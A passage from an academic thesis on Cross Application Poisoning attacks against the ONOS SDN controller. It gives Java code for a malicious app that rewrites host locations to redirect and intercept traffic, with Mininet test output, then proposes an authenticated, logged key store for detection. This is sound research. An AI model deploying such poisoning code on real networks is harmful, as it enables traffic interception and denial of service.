    \item When H4 pings all the other hosts in the network, the location arrays are back to the original values and both H1 and H3 can be reached since the packets are routed correctly.
\end{itemize}
%   - explain that an host can be blind if not active in this scenario

It's important to note that in this scenario the affected hosts went back "live" just because they were actively sending packets in the network. Consider the scenario where the victim hosts H1 and H3 are only listening for incoming packets or they will send data only after received a certain message. They will never receive incoming packets as any packets destined for them will go to the wrong locations and so they will be completely isolated in the network. If instead as in this case HostLocationProvider is active, it will scan all the packets in the network. When a packet having a certain IP (or MAC) address is coming from a certain interface, that application checks if in the Host Data Store there is an host having that address with that location; if not, HostLocationProvider will add the missing information. Using this environment it's not possible to deactivate HostLocationProvider app because it's a required dependency for the Reactive Forwarding app, and so also that application will be automatically deactivated as well. In an environment where org.onosproject.fwd is not used, but the forwarding or routing logic is in charge on another application then doesn't depend on HostLocationProvider, this attack can completely isolate all the hosts in the network.


\subsection{Impersonation Host Tracking}
In the previous attack the affected security property of the CIA Triad was Availability. In fact, victim hosts were not reachable by any other host in the network unless they actively sends packets. It's possible to create another attack scenario in which the affected security property is Confidentiality. In this environment we still have an host tracking application (different from the previous one), the Reactive Forwarding (org.onosproject.fwd) app and a single ONOS controller. The data-plane is chosen so that it's easier to show the affected components, but it's possible to reproduce the attack using any network topology.

For the ONOS deploy the steps are exactly the same as the previous attack, so there will be installed 8 apps excluding the malicious one. For the data-plane, it's not possible to instruct Mininet to build a complex virtualized network only using the Command line, so also the Python APIs are needed.
\begin{figure}[h]
\caption{Impersonation Host Tracking CAP attack - data-plane}
\label{fig:cap2-dataplane}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/cap21.png}
\centering
\end{figure}
The figure 2.7 shows the data-plane used in this scenario: we still have four hosts but we only have two switches. The IP addresses are still sequential and so we'll have the same hosts names and IP addresses pairs (H1 with 10.0.0.1 and so on). H1 is the only host connected to the first switch, while all the remaining hosts (H2, H3 and H4) are connected to the second switch.
\medskip

In order to build this virtualized network, the file impersonation.py was used. Line 5 defines the only import needed for this topology. Middle-level APIs are used (notice addSwitch, addHost and addLink methods of self object that is the Mininet class) because there's no need to have a low-level control over the network devices. Inside the build() method, in line 10 it's created and added to the network the first switch (named s1), then in line 11 the host h1 is created and connected to the switch s1 in the next line. Lines 1 and 14 defines the creation of the second switch (named s2) and the connection between the two switches. In line 15 a range loop is used to add a new host and connect that host to the second switch for every iteration. In this case the number of iterations is hardcoded because there's no need to parametrize the loop, but it's a good practice when many hosts must be connected to a single switch. The last line defines a dictionary called "topos" containing all the topology reusable templates defined in the file. Mininet uses this dictionary to create networks from pre-defined topologies.
\begin{lstlisting}[language=python,firstnumber=5]
from mininet.topo import Topo

class ImpersonationTopo( Topo ):

    def build( self ):
        switch1 = self.addSwitch('s1')
        h1 = self.addHost('h1')
        self.addLink(switch1, h1)
        switch2 = self.addSwitch('s2')
        self.addLink(switch1, switch2)
        for h in range(1, 4):
            host = self.addHost('h%s' % (h + 1))
            self.addLink(host, switch2)


topos = { 'impersonation': ( lambda: ImpersonationTopo() ) }
\end{lstlisting}

Regarding the malicious application source code, the class definition (named ImpersonationHostTracking), logger and references are exactly the same as the previous one. Only the \textbf{editHostStore()} method changes. The logic is to get all the switch objects available using the DeviceService, then retrieve all the host objects connected to the second switch. From line 106 until 115 the victim hosts are added to a list checking that H2 is not included. In line 116 the location of victim hosts is substituted with the location of host H2.
\begin{lstlisting}[language=java,firstnumber=98]
    private void editHostStore() {
        Iterable<Device> devices = deviceService.getDevices();
        List<Device> deviceList = new ArrayList<Device>();
        devices.forEach(deviceList::add);
        log.info("Impersonation Host Tracking App: Devices {}", deviceList);
        Device s2 = deviceList.get(1);
        Set<Host> hosts = hostStore.getConnectedHosts(s2.id());
        log.info("Impersonation Host Tracking App: Hosts {}", hosts.toString());
        List<Host> hostsArray = new ArrayList<>(hosts);
        List<Host> victims = new ArrayList<>();
        Host attacker = hostsArray.get(0);
        log.info("Impersonation Host Tracking App: Attacker {}", attacker.toString());
        for (Host h : hostsArray) {
            if (!h.equals(attacker)) {
                victims.add(h);
            }
        }
        log.info("Impersonation Host Tracking App: Victims {}", victims.toString());
        changeLocation(getLocations(attacker.id()).iterator().next(), victims);
        for (Host h : victims) {
            log.info("Impersonation Host Tracking App: Victim {} > new Locations {}", h.id(), getLocations(h.id()));
        }
    }
\end{lstlisting}

The previous method uses the following private method to change the locations. Like in the previous attack firstly the location of H2 is added to the victim hosts' locations array, then the old ones are deleted from the arrays.
\begin{lstlisting}[language=java,firstnumber=123]
    private void changeLocation(HostLocation attacker, List<Host> victims) {
        for (Host h : victims) {
            log.info("Impersonation Host Tracking App: Targeting host {}", h);
            Set<HostLocation> oldLocation = getLocations(h.id());
            log.info("Impersonation Host Tracking App: Victim Locations {}", oldLocation);
            hostStore.appendLocation(h.id(), attacker);
            log.info("Impersonation Host Tracking App: Victim Locations {}", getLocations(h.id()));
            hostStore.removeLocation(h.id(), oldLocation.iterator().next());
            log.info("Impersonation Host Tracking App: Victim Locations {}", getLocations(h.id()));
        }
    }
\end{lstlisting}

Before proceeding with the attack, a pingall test is performed in order to check that hosts are effectively connected and everything is working as intended.
\begin{lstlisting}[language=bash]
mininet> pingall
*** Ping: testing ping reachbility
h1 -> h2 h3 h4
h2 -> h1 h3 h4
h3 -> h2 h3 h4
h4 -> h1 h2 h3
*** Results: 0% dropped (12/12 received)
\end{lstlisting}

The malicious application is then compiled and installed using the same commands used in the previous attack. As soon as the malicious application is activated, the attack is performed and the Host Data Store is poisoned. The test is performed in this way: first of all, we start listening on the host H2 for incoming packets
\begin{lstlisting}[language=bash]
h2 tcpdump > impersonation-h2.pcap &
\end{lstlisting}

and on host H4 as well:
\begin{lstlisting}[language=bash]
h4 tcpdump > impersonation-h4.pcap &
\end{lstlisting}

then H1 starts pinging the host H4
\begin{lstlisting}[language=bash]
h1 ping h4
\end{lstlisting}

The Figure 2.8 shows how the attack is performed. The host H1 sends ICMP echo packets directed to the host H4, but since the location of the hosts H3 and H4 is set to the interface where H2 is connected the packets will be routed to the H2's location interface.
\begin{figure}[h]
\caption{Impersonation Host Tracking CAP attack - Ping test}
\label{fig:cap2-ping}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/cap22.png}
\centering
\end{figure}

Reading the file impersonation-h4.pcap we can observe that H4 never gets the ICMP echo requests, while in the file impersonation-h2.pcap they are present.
\begin{lstlisting}[language=bash]
02:01:14.548201 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 1, length 64
02:01:14.697044 LLDP, length 125
02:01:14.697149 02:eb:69:28:3b:3a (oui Unknown) > Broadcast, ethertype Unknown (0x8942), length 139: 
...
02:01:15.568491 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 2, length 64
02:01:16.582898 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 3, length 64
02:01:17.598314 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 4, length 64
02:01:18.690867 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 5, length 64
02:01:19.585316 ARP, Request who-has 10.0.0.4 tell 10.0.0.1, length 28
02:01:19.710663 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 6, length 64
02:01:20.613187 ARP, Request who-has 10.0.0.4 tell 10.0.0.1, length 28
02:01:20.738416 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 7, length 64
...
\end{lstlisting}

This test shows that the attack correctly succeeded. The confidentiality of the packets sent by host H1 directed to the host H4 are instead routed to the host H2 and so the confidentiality of data is broken. It's important to note that host H2 must be under the attacker's control in order to read confidential data (physically under the attacker's possession or attacked and subsequently taken control). The impact of the attack can be worse if the attacker poses as the victim host H4 and replies to incoming messages. In this case it should reply with ICMP echo reply packets changing the IP address to that of the victim (10.0.0.4).


\clearpage

% ================== CHAPTER 3 ==================
\chapter{Proposed Solution}

%% - here explain general idea before going into sections
The proposed solution greatly differs from existing state-of-the-art models for blocking or detecting Cross Application Poisoning attacks. An offline model is used instead of online: consider a production ONOS environment where n applications are installed and activated. A new application must be activated (after carrying out an initial analysis on the compatibility of the new application with the others already activated), but before installing and deploying it in production its security will be tested. A test environment is used with the same applications that are in use in the production environment, while as regards the data-plane, modifications can be made to obtain tests with greater coverage (e.g. add or remove hosts and switches, perform connection tests with different protocols...). Every time a new application is activated it has to ask a new data store (ApplicationKeyStore) for an authentication key that will be used to call the ONOS APIs. When applications use these APIs they must also provide their private key, in case the credentials are incorrect access is denied. Every time an API call is made it's logged in a log file. When the test is finished, an accurate analysis will be done on the log file in order to obtain various information: the new application has always authenticated with its own credentials or not (in the second case a brute-force attack could have been used); what are the possible CAP attack vectors present in the test configuration and which ones were actually used. The network operator has fine-grained control over the APIs that may have been used to conduct CAP attacks. In the next sections the proposed solution is explained in details with figures and code snippets, some considerations about its advantages are provided too. A security survey is present in Chapter 4.

\section{ApplicationKeyStore}

\subsection{How it works}
In Chapter 2 a detailed description about ONOS internals is provided explaining how all the logical components work together to provide efficient services. ONOS is composed by a stack of logical components that can be sliced in "thinner" stacks called subsystems. These are the objects taking care of particular topics, as example the device subsystem is a compound of logical ONOS stack parts (composed of applications, core components and providers) managing the devices in the network. All the information about the devices (e.g. Identifier, Manufacturer, Hardware and Software versions, type, serial number...) is stored in a component called "Device Store" and each subsystem uses its data store (e.g. Host Store, Flow rule Store ...). These are the objects that malicious applications use to perform Cross Application Poisoning attacks. Data stores are replicated across all the ONOS nodes to be aligned with the latest data in order to be effectively fault tolerant. When a change happens in a store of a single node (data insertion, update or removal), an event is generated and is propagated to all the active ONOS nodes (and they will internally replicate the actions), this ensures that all the data stores in all the active nodes are up to date. In this research activity the ApplicationKeyStore is not distributed since only ONOS environments with a single controller are taken into account, however it's important to have a store that is reliable even with concurrent data operations.

\begin{figure}[h]
\caption{ApplicationKeyStore usage}
\label{fig:aks}

\includegraphics[width=0.6
\textwidth]{resources/Chapter-3/aks.png}
\centering
\end{figure}

The figure 3.1 shows how the ApplicationKeyStore is used with a flow chart. Whenever an application is activated, if it has to request access to ONOS APIs, it must request credentials from the ApplicationKeyStore. The store will generate the credentials for the new application and it will reply to the app with those. The application will keep those information privately ensuring nothing can access them (see Chapter 4 for Store security). When the application wants to call an ONOS API, it has to provide the credentials too in order to be authenticated. Then the ApplicationKeyStore will check if the credentials are correct: if yes, the access to the ONOS API is granted; otherwise the access is denied. At the end of this process whatever the previous action was, the action is logged in a log file.


\subsection{Implementation details}

The ApplicationKeyStore is a component managed by the OSGi technology and it's activated by default during ONOS startup (see @Component immediate=true). In the following code snippets the imports are not included. The following code snippet defines the class, the logger (needed to log items in ONOS logs, not the ones used for CAP attacks detection), the full path of the file used for logging and a ConcurrentHashMap that will hold all the credentials for all the registered applications. The data structure maps strings to strings: the key is the application name (e.g. org.onosproject.malhosttracking) and the value is the corresponding application's private key. The strings defined in line 46 and 47 are used as error messages when an application wants to generate a new key using an application name (as key in the keyStore) that is already registered and when it contains spaces. We'll see later why it cannot contain spaces.
\begin{lstlisting}[language=java,firstnumber=36]
...

/**
 * Manages the inventory of application keys.
 */
@Component(immediate = true, service = ApplicationKeyStore.class)
public class ApplicationKeyStore {

    private final Logger log = getLogger(getClass());

    private final String ERROR_KEY_ALREADY_EXISTS = "[ERROR] Key already exists";
    private final String ERROR_NAME_SPACE = "[ERROR] App name cannot contain spaces";

    private final String LOGFILENAME = "/home/edoardottt/cybersecurity/thesis/onos-cap/onos.log";

    private ConcurrentHashMap<String, String> keyStore;
\end{lstlisting}

When the ONOS controller is started, it activates also this store and the following method is called. A new empty ConcurrentHashMap is created.
\begin{lstlisting}[language=java,firstnumber=53]
    @Activate
    public void activate() {
        keyStore = new ConcurrentHashMap<String, String>();
        log.info("Started");
    }
\end{lstlisting}

The deactivation method is defined even if the ApplicationKeyStore is needed to effectively access ONOS APIs.
\begin{lstlisting}[language=java,firstnumber=60]
    @Deactivate
    public void deactivate() {
        keyStore.clear();
        log.info("Stopped");
    }
\end{lstlisting}

The method \textbf{getKey()} retrieves the private key of a specific application using its name.
\begin{lstlisting}[language=java,firstnumber=67]
    private String getKey(String appName) {
        return keyStore.get(appName);
    }
\end{lstlisting}

\textbf{generateKey()} is the method used to generate a new pair in the store. An application name is taken as input and as first step it's checked whether the application name is already present in the store. If it's present, it means there is a problem with the applications that are trying to register themselves: for example a malicious application wants to log its actions using a name of a common or famous application (e.g. org.onosproject.fwd). This immediately raises a security alarm. In line 77 it's checked if the application name can be used: it must not contain spaces. If both checks pass, a new private key is generated using a random object selecting 60 times uppercase characters, lowercase characters or digits. Here many cryptographic methods can be used but as a proof of concept the method used is sufficient; the security of this generation method is discussed in the next chapter. Once the key is generated, a new entry is created in the store having as key the application name and as value the private key. Finally the generated key is returned to the application that called the method.
\begin{lstlisting}[language=java,firstnumber=71]
    public String generateKey(String appName) {
        if (keyStore.containsKey(appName)) {
            log(appName, "", ERROR_KEY_ALREADY_EXISTS);
            return ERROR_KEY_ALREADY_EXISTS;
        }

        if (!appNameOk(appName)) {
            log(appName, "", ERROR_NAME_SPACE);
            return ERROR_NAME_SPACE;
        }

        int leftLimit = 48; // numeral '0'
        int rightLimit = 122; // letter 'z'
        int targetStringLength = 60;
        Random random = new Random();

        String generatedString = random.ints(leftLimit, rightLimit + 1)
                .filter(i -> (i <= 57 || i >= 65) && (i <= 90 || i >= 97))
                .limit(targetStringLength)
                .collect(StringBuilder::new, StringBuilder::appendCodePoint, StringBuilder::append)
                .toString();

        keyStore.put(appName, generatedString);

        return generatedString;
    }
\end{lstlisting}

The following method is used to check if an application name and its private key are valid credentials.
\begin{lstlisting}[language=java,firstnumber=98]
    public boolean accessGranted(String appName, String appKey) {
        String appK = keyStore.get(appName);
        if (appK == null) {
            return false;
        }

        return keyStore.get(appName).equals(appKey);
    }
\end{lstlisting}

The following is a public method to create log entries in the log file. The method takes as input the application name, the application private key and the string to be logged. Then a timestamp in milliseconds of the current time is created. If the credentials aren't correct and so the access is denied, an error message is logged: this is another big warning sign a network operator should look at. If instead the access is granted the original content string is logged. Notice that this method is public and so anyone can use it. This is necessary because all the data stores must import the ApplicationKeyStore and use its methods to check the credentials in order to grant or deny the access and to log events. Due to the fact that the method is public, even applications can directly log events, however notice that in line 99 the if condition is checking if the credentials are valid or not: this means anyone using this method can inject fake logs only using valid credentials and so their own credentials. Moreover, this is just a proof of concept: if Security-Mode ONOS is used the access to this API can be restricted for applications.
\begin{lstlisting}[language=java,firstnumber=107]
    public void log(String appName, String appKey, String content) {
        long timeMilli = new Date().getTime();

        if (!accessGranted(appName, appKey)) {
            content = timeMilli + " [ERROR] Wrong credentials: " + appName + " " + appKey + " " + content;
        }
        try {
            createFile();
            FileWriter fw = new FileWriter(LOGFILENAME, true);
            BufferedWriter bw = new BufferedWriter(fw);
            PrintWriter out = new PrintWriter(bw);
            out.println(timeMilli + " " + appName + " " + content + "\n");
            out.close();
            log.info("ONOS-LOG | Successfully wrote to file!");
        } catch (IOException e) {
            log.info("ONOS-LOG | Error while writing to file {}", LOGFILENAME);
            e.printStackTrace();
        }
    }
\end{lstlisting}

The following private method is used to check if an application name contains spaces.
\begin{lstlisting}[language=java,firstnumber=127]
    private boolean appNameOk(String appName) {
        return !appName.contains(" ");
    }
\end{lstlisting}

This method is a private subroutine used in the previous function. It checks if the log file is already created, otherwise it creates that.
\begin{lstlisting}[language=java,firstnumber=131]
    private File createFile() {
        try {
            File myObj = new File(LOGFILENAME);
            if (!myObj.exists()) {
                myObj.createNewFile();
            }
            return myObj;
        } catch (Exception e) {
            log.info("ONOS-LOG | Error while creating file {}", LOGFILENAME);
            e.printStackTrace();
        }

        return null;
    }
\end{lstlisting}

\clearpage

\section{Authentication and Logging}

\subsection{Legacy APIs}
%% - app activation without appkeystore
This subsection goes through the process of application activation, how the current ONOS APIs are defined and also an example of API implementation. As example the Host Data Store is used since it's the one poisoned by the malicious applications developed during the research activity.
\medskip

We've already seen what happens when an application is activated, the following is a simple example. First of all the application must register itself with a strictly name format: it should follow the reverse Domain Name System notation (e.g. org.onosproject.fwd) as specified in the official ONOS documentation. In this method all the methods that should be executed when at application startup should be inserted (here only \textbf{editHostStore()} in line 85). It's a good practice that when a new application is activated, an informational log entry is added.
\begin{lstlisting}[language=java,firstnumber=82]
    @Activate
    protected void activate() {
        coreService.registerApplication("org.edoardottt.malhosttracking.app")
        editHostStore();
        log.info("Started malhosttracking App!");
    }
\end{lstlisting}

In the source file onos/core/api/src/main/java/org/onosproject/net/host/HostStore.java it's defined the HostStore interface. This interface extends the interface Store\textlangle HostEvent, HostStoreDelegate\textrangle and defines some method signatures. The following code snippet contains two examples that are used in the malicious applications to poison the Host Data Store. The first method is used to add a new location to a host's location array and it takes an host ID and a host location as inputs. The second one instead removes an inputted host location from an host's location array.
\begin{lstlisting}[language=java,firstnumber=102]
    /**
     * Append the specified location to the host entry.
     *
     * @param hostId   host identification
     * @param location location to be added
     */
    void appendLocation(HostId hostId, HostLocation location);

    /**
     * Removes the specified location from the host entry.
     *
     * @param hostId   host identification
     * @param location location to be removed
     */
    void removeLocation(HostId hostId, HostLocation location);
\end{lstlisting}

%% - examples of legacy API (code)
The file onos/core/store/dist/src/main/java/org/onosproject/store/host/impl/\\DistributedHostStore.java instead implements the HostStore interface and contains the code used for the Host Data Store. As the name suggests the store is distributed and implements all the functions needed to correctly update the store replicas. The following code snippet contains the source code for the method \textbf{appendLocation()}. The line 385 prints the information on what is happening in the debug log level. We'll see in the next subsections why the ONOS logs are not sufficient. In the next lines the method checks whether some basic conditions are met and then replace the host's location array with a new one having the new location.
\begin{lstlisting}[language=java,firstnumber=384]
    @Override
    public void appendLocation(HostId hostId, HostLocation location) {
        log.debug("Appending location {} to host {}", location, hostId);

        hosts.compute(hostId, (id, existingHost) -> {
            if (existingHost != null) {
                checkState(Objects.equals(hostId.mac(), existingHost.mac()),
                        "Existing and new MAC addresses differ.");
                checkState(Objects.equals(hostId.vlanId(), existingHost.vlan()),
                        "Existing and new VLANs differ.");

                // Move within the same switch
                // Simply replace old location that is on the same device
                Set<HostLocation> newLocations = Sets.newHashSet(location);
                existingHost.locations().stream().filter(loc -> !loc.deviceId().equals(location.deviceId()))
                        .forEach(newLocations::add);

                return new DefaultHost(existingHost.providerId(),
                        hostId, existingHost.mac(), existingHost.vlan(),
                        newLocations, existingHost.auxLocations(), existingHost.ipAddresses(),
                        existingHost.innerVlan(), existingHost.tpid(),
                        existingHost.configured(), existingHost.suspended(), existingHost.annotations());
            }
            return null;
        });
    }
\end{lstlisting}

When an application wants to use this API it just needs to import the package and call the method with the proper parameters.

\subsection{Authenticated APIs}
%% - app activation with appkeystore
The code shown in the previous subsection was modified to obtain authenticated APIs, a better log information system and all the required functionalities for the proposed solution. Just for the proof of concept new methods are added instead of replacing the old ones for compatibility.
\medskip

In the HostStore interface every method has its own authenticated version. As example \textbf{appendLocation()} and \textbf{removeLocation()} are used. Two new parameters must be used: the application name and the application private key.
\begin{lstlisting}[language=java,firstnumber=102]
    /**
     * Append the specified location to the host entry.
     *
     * @param appName  app name 
     * @param appKey   app secret key 
     * @param hostId   host identification
     * @param location location to be added
     */
    void appendLocation(String appName, String appKey, HostId hostId, HostLocation location);

    /**
     * Removes the specified location from the host entry.
     *
     * @param appName  app name 
     * @param appKey   app secret key 
     * @param hostId   host identification
     * @param location location to be removed
     */
    void removeLocation(String appName, String appKey, HostId hostId, HostLocation location);
\end{lstlisting}

%% - examples of authenticated API (code)

The following code snippet shows the authenticated version of the method \textbf{appendLocation()}. The first line logs the exact same information (using the debug log level) as the unauthenticated version. Line 449 uses the ApplicationKeyStore method \textbf{log()} to log the application name, application private key, the API called and all the parameters for the API. This is an example of a possible entry for the log file used for Cross Application Poisoning attacks detection. Then in line 451 the appendLocation method uses the \textbf{accessGranted()} method from ApplicationKeyStore to check if the credentials used are correct and present in the key store. If the access is granted, an informational ONOS log will be added with the information already inserted in the log file, otherwise a log entry is inserted in the log file specifying which incorrect credentials were used for the API authentication.
\begin{lstlisting}[language=java,firstnumber=445]
    @Override
    public void appendLocation(String appName, String appKey, HostId hostId, HostLocation location) {
        log.debug("Appending location {} to host {}", location, hostId);

        applicationKeyStore.log(appName, appKey, " appendLocation " + hostId.toString() + " " + location.toString());
        if (!applicationKeyStore.accessGranted(appName, appKey)) {
            log.info("ONOS-LOG | ERROR WRONG KEY {} {}", appName, appKey);
            return;
        } else {
            log.info("ONOS-LOG | {} {} {} {} {}", appName, appKey, "appendLocation", hostId.toString(),
                    location.toString());

            hosts.compute(hostId, (id, existingHost) -> {
            if (existingHost != null) {
                    checkState(Objects.equals(hostId.mac(), existingHost.mac()), "Existing and new MAC addresses differ.");
            ...
\end{lstlisting}

When using the authenticated APIs, an application must import the ApplicationKeyStore.
\begin{lstlisting}[language=java,firstnumber=45]
import org.onosproject.security.ApplicationKeyStore;
\end{lstlisting}

Then, it's important to define and  reference the ApplicationKeyStore as mandatory because it's necessary to use the authenticated ONOS APIs.
\begin{lstlisting}[language=java,firstnumber=47]
/**
 * Malicious Host Tracking Application
 * using authenticated APIs.
 */
@Component(immediate = true)
public class MalHostTracking {

    private final Logger log = LoggerFactory.getLogger(getClass());

    @Reference(cardinality = ReferenceCardinality.MANDATORY)
    protected CoreService coreService;
    ...
    @Reference(cardinality = ReferenceCardinality.MANDATORY)
    protected ApplicationKeyStore applicationKeyStore;
\end{lstlisting}

It's important that the application defines also the application name and the application private key. Once defined, they should be never overwritten and that's why when an application tries to call an authenticated ONOS API with incorrect credentials looks suspicious.
\begin{lstlisting}[language=java,firstnumber=74]
    private static final String APPNAME = "org.edoardottt.malhosttracking.app";
    private String APPKEY;
\end{lstlisting}

The following code snippet defines the activation method using authenticated ONOS APIs. The method \textbf{generateKey()} from the ApplicationKeyStore is used: passing as input the application name, a new generated application private key is returned.
\begin{lstlisting}[language=java,firstnumber=93]
    @Activate
    protected void activate() {
        APPKEY = applicationKeyStore.generateKey(APPNAME);

        coreService.registerApplication(APPNAME);
        startTimer(TIMEOUT);
        log.info("Started malhosttracking App!");
    }
\end{lstlisting}

The following code snippet shows the code for the malicious host tracking application using authenticated APIs. In line 140 the malicious application tries to use a different application private key to bypass the authentication protection. All the remaining API calls (the code that is actually poisoning the host data store) are using the correct credentials. All the actions performed by these lines are logged in the log file.
\begin{lstlisting}[language=java,firstnumber=139]
        // try wrong credentials
        hostStore.appendLocation(APPNAME, "skbwufuiwfuiwehfuiwwh", h4, newLocationH4);

        hostStore.appendLocation(APPNAME, APPKEY, h4, newLocationH4);
        hostStore.appendLocation(APPNAME, APPKEY, h1, newLocationH1);
        log.info("Malicious Host Tracking App: Locations {} and {}", getLocations(h1), getLocations(h4));
        hostStore.removeLocation(APPNAME, APPKEY, h1, newLocationH4);
        hostStore.removeLocation(APPNAME, APPKEY, h4, newLocationH1);
        log.info("Malicious Host Tracking App: Locations successfully poisoned: {} and {}", getLocations(h1),
                getLocations(h4));
    }
\end{lstlisting}

\subsection{Monitoring and Traceability}
%% - Why Debug level logs not OK for this task
This subsection includes some considerations on the ONOS log system and the proposed solution one. These two log systems should not be mutually exclusive: both must be active because they contain different information for different purposes. The proposed solution log system is needed for the Cross Application Poisoning attacks detection (and even more as we're going to see in a moment) because the default ONOS logs, even in debug mode, don't log too much information. It's not about the parameters of the ONOS API call, but mainly who was the caller.
\medskip

The following is an example of default ONOS logs with debug mode enabled. As we can see, there are both DEBUG and INFO level logs. Each line contains different pieces of information separated by a vertical line. The first one is always the timestamp in this particular format 2023-04-06T09:53:12,082. The second one specifies the log level, in this log example we have only INFO and DEBUG level logs, but also TRACE, WARN, ERROR and FATAL are supported (OFF and DEFAULT are two possible configurations to turn off logging or setting the default level). The third and the fourth elements specifies the thread and the component that created the current log entry. The remaining elements is useful information to be logged. The log lines from the first to the eighth refer to the installation of the new bundle. In this case ONOS is logging that the application org.onosproject.onos-malhosttracking/2.0.0.SNAPSHOT must be installed and immediately started. Lines 9 and 10 are INFO level logs produced by the malicious host tracking application saying that two hosts with their specific locations are selected for the attack (host 00:00:00:00:00:01/None and 00:00:00:00:00:03/None). Lines 11 and 12 are two DEBUG level logs originated from the host data store (namely DistributedHostStore) saying that two locations (the actual poisoning) are being added to the location arrays of the attacked hosts. Line 13 is an INFO level log created by the malicious host tracking application printing the location arrays of the two victim hosts; now the arrays have two locations because they contain the original location and the fake one inserted by the attacker. Lines 14 and 15 are DEBUG level logs originated by the host data store notifying that someone (we know it's the malicious host tracking application) is removing a location from both the victim hosts' location arrays. Line 16 is an INFO level log created by the malicious host tracking application saying that it has successfully poisoned the victim hosts' location arrays and the attack is completed; in particular the two location arrays are printed and the resulting arrays are the original ones of the victim hosts but swapped. The remaining logs are INFO level entries notifying that the application is successfully deployed and active. 
\begin{lstlisting}[language=bash]
2023-04-06T09:53:12,082 | INFO  | features-3-thread-1 | FeaturesServiceImpl              | 11 - org.apache.karaf.features.core - 4.2.9 | Changes to perform:
2023-04-06T09:53:12,082 | INFO  | features-3-thread-1 | FeaturesServiceImpl              | 11 - org.apache.karaf.features.core - 4.2.9 |   Region: root
2023-04-06T09:53:12,082 | INFO  | features-3-thread-1 | FeaturesServiceImpl              | 11 - org.apache.karaf.features.core - 4.2.9 |     Bundles to install:
2023-04-06T09:53:12,082 | INFO  | features-3-thread-1 | FeaturesServiceImpl              | 11 - org.apache.karaf.features.core - 4.2.9 |       mvn:org.onosproject/onos-malhosttracking/2.0.0-SNAPSHOT
2023-04-06T09:53:12,083 | INFO  | features-3-thread-1 | FeaturesServiceImpl              | 11 - org.apache.karaf.features.core - 4.2.9 | Installing bundles:
2023-04-06T09:53:12,083 | INFO  | features-3-thread-1 | FeaturesServiceImpl              | 11 - org.apache.karaf.features.core - 4.2.9 |   mvn:org.onosproject/onos-malhosttracking/2.0.0-SNAPSHOT
2023-04-06T09:53:12,090 | INFO  | features-3-thread-1 | FeaturesServiceImpl              | 11 - org.apache.karaf.features.core - 4.2.9 | Starting bundles:
2023-04-06T09:53:12,090 | INFO  | features-3-thread-1 | FeaturesServiceImpl              | 11 - org.apache.karaf.features.core - 4.2.9 |   org.onosproject.onos-malhosttracking/2.0.0.SNAPSHOT
2023-04-06T09:53:12,098 | INFO  | features-3-thread-1 | MalHostTracking                  | 215 - org.onosproject.onos-malhosttracking - 2.0.0.SNAPSHOT | Malicious Host Tracking App: Selected host 00:00:00:00:00:01/None and host 00:00:00:00:00:03/None
